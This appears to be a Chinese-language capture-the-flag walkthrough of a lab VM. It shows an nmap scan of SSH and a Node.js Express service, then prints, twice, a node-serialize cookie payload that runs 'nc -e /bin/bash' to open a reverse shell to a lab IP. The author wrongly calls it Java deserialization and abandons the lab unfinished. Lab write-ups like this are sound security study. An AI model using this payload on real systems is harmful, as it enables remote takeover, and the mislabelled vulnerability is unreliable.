



## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,666 172.20.10.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 08:39 CST
Nmap scan report for 172.20.10.2
Host is up (0.00068s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:D8:5D:FF (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.32 seconds
```

## web渗透



初始页面如上
这里有个报错

抓包看数据包
发现起profile的cookie有一处错误

{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}

{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":`"`Friday, 13 Oct 2018 00:00:00 GMT"}

这里在Friday前少了一个`"`

{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('nc -e /bin/bash 172.20.10.13 1234', (error, stdout, stderr)=>{ console.log(stdout); }); }()"}

这里是java反序列化可以拿shell

{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('nc -e /bin/bash 172.20.10.13 1234', (error, stdout, stderr)=>{ console.log(stdout); }); }()"}


但是后面这靶机环境又有问题。。。很离谱，根本就做不了
